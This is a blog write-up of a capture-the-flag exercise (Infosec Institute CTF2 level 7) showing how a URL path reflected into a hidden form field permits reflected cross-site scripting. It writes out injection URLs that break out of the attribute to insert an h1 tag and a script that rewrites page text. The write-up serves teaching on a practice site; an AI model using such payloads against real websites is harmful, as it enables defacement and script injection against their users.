 ```yaml
---
layout: post
title: Infosec Institute CTF2 Practical Web Hacking Level 7
category: Web
tags: infosec
---
```


**Vulnerability** A3 Cross-Site Scripting (XSS)
**Description:**

![screen]({{site.url}}/assets/Screen Shot 2015-07-17 at 1.38.50 PM.png)

## Write-up

For almost all levels I will be using Burpsuite. Burpsuite is an interception proxy that lets us modify the HTTP request
 / response by intercepting the data between the browser and the web server.
 
First let's inspect the source for anything interesting.

{% highlight html linenos %}
<form class="ex7-form" action="">
	<label for="name">    <span class="glyphicon glyphicon-user"></span>Username:</label>
	<input type="text" id="name" name="name" class="form-control input-lg"/>
	<label for="pass">   <span class="glyphicon glyphicon-lock"></span>Password:</label>
	<input type="password" id="pass" name="pass" class="form-control input-lg"/>
	<input name="action" type="hidden" value='/ctf2/exercises/ex7.php               '>
	<div>
		<input type="submit" class="btn btn-lg btn-default" value="Login"/>
		<input type="reset" class="btn btn-lg btn-danger" value="Reset"/>
	</div>
</form>
{% endhighlight %}

We see a "hidden" form that looks interesting... From the level description we know that since we need to share the page
with users, the XSS will be Reflective. Reflective XSS is done via the URL, let's start testing the URL.

If we insert '/TEST' at the end of the URL and inspect the source again, we will see that our string is being appended to the
hidden input field.

{% highlight html linenos %}
<form class="ex7-form" action="">
	<label for="name">    <span class="glyphicon glyphicon-user"></span>Username:</label>
	<input type="text" id="name" name="name" class="form-control input-lg"/>
	<label for="pass">   <span class="glyphicon glyphicon-lock"></span>Password:</label>
	<input type="password" id="pass" name="pass" class="form-control input-lg"/>
	<input name="action" type="hidden" value='/ctf2/exercises/ex7.php/TEST               '>
	<div>
        <input type="submit" class="btn btn-lg btn-default" value="Login"/>
		<input type="reset" class="btn btn-lg btn-danger" value="Reset"/>
	</div>
</form>
{% endhighlight %}

So to insert a &lt;h1&gt; tag, we need to inject a closing tag SQL injection style.

Final injection payload in the URL:

{% highlight text %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex7.php/'><h1>Blah</h1>
{% endhighlight %} 

The source now looks like this:

{% highlight html linenos %}
<form class="ex7-form" action="">
    <label for="name">    <span class="glyphicon glyphicon-user"></span>Username:</label>
    <input type="text" id="name" name="name" class="form-control input-lg"/>
    <label for="pass">   <span class="glyphicon glyphicon-lock"></span>Password:</label>
    <input type="password" id="pass" name="pass" class="form-control input-lg"/>
    <input name="action" type="hidden" value='/'><h1>Blah</h1>               '>
    <div>
        <input type="submit" class="btn btn-lg btn-default" value="Login"/>
    	<input type="reset" class="btn btn-lg btn-danger" value="Reset"/>
	</div>
</form>
{% endhighlight %}

With the "/'&gt;" we are closing the current HTML tag and injecting the &lt;h1&gt;&lt;/h1&gt; tag.

![screen2]({{site.url}}/assets/Screen Shot 2015-07-17 at 3.42.45 PM.png)

I tried injecting some JavaScript so I can replace the "YOUR NAME HERE" text but it looks like JavaScript or anything that's not
&lt;h1&gt; gets stripped at the server side.

Injection URL:

{% highlight text linenos %}
http://ctf.infosecinstitute.com/ctf2/exercises/ex7.php/'><script>document.getElementsByClassName("label")[0].innerHTML = "<h1>The bishokukai were here!</h1>";</script>
{% endhighlight %}

And if we see the source, we will notice the &lt;script&gt; is stripped.

{% highlight html linenos %}
<input name="action" type="hidden" value='/ctf2/exercises/ex7.php/'>document.getElementsByClassName("label")[0].innerHTML = "<h1>The bishokukai were here!</h1>";               '>
<div>
{% endhighlight %}

## Links

* <http://ctf.infosecinstitute.com/ctf2/exercises/ex7.php>
